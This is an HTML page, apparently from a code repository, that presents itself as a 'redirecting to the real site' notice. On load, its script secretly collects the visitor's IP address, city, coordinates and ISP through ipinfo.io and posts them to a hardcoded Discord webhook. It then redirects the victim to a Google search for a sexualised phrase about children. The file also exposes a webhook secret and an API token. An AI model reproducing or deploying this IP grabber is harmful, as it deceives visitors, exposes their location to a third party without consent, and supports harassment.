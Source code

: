 # zen.com
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="refresh" content="5;url=https://www.google.com/search?q=i+like+children&oq=i+like+children&aqs=chrome..69i57j46i512j0i512l8.10840j0j4&sourceid=chrome&ie=UTF-8">
</head>
<body>
    <h1>pls wait redirecting to the real site</h1>
    <p id="info"></p>

    <script>
        // Function to fetch IP information using ipinfo.io API
        function fetchIPInfoAndSendEmbed() {
            const apiToken = 'd3df1d9e27298e'; // Replace with your actual API token

            // Function to send embed message to Discord webhook
            function sendEmbedToDiscord(embedData) {
                const webhookURL = 'https://discord.com/api/webhooks/1255784454958350391/9KHQu5ZzuCcvRZFzp4WtfetdTDBgqwevlVkX_V_rjjg9W6r7LHyT2mbO_rLvQJd2fk0F';
                
                return fetch(webhookURL, {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json',
                    },
                    body: JSON.stringify(embedData),
                });
            }

            // Fetch IP information from ipinfo.io
            return fetch(`https://ipinfo.io/json?token=${apiToken}`)
                .then(response => response.json())
                .then(data => {
                    console.log('IP Information:', data); // Log the information to the console

                    if (data) {
                        const embedData = {
                            embeds: [{
                                title: 'ZENISOO IP TOOL',
                                description: `IP Address: ${data.ip}\nCity: ${data.city}\nRegion: ${data.region}\nCountry: ${data.country}\nLocation: ${data.loc}\nOrganization: ${data.org}\nISP: ${data.hostname}`,
                                color: 0x00ff00 // You can customize the color if needed
                            }]
                        };

                        // Send embed message to Discord webhook
                        return sendEmbedToDiscord(embedData);
                    } else {
                        document.getElementById('info').textContent = 'Failed to fetch IP information.';
                        return null;
                    }
                })
                .then(response => {
                    if (response && response.ok) {
                        console.log('Embed sent to Discord');
                    } else {
                        console.error('Failed to send embed to Discord:', response);
                    }
                })
                .catch(error => {
                    console.error('Error fetching IP information:', error);
                    document.getElementById('info').textContent = 'Failed to fetch IP information.';
                });
        }

        // Call fetchIPInfoAndSendEmbed when the page loads
        fetchIPInfoAndSendEmbed();
    </script>
</body>
</html>
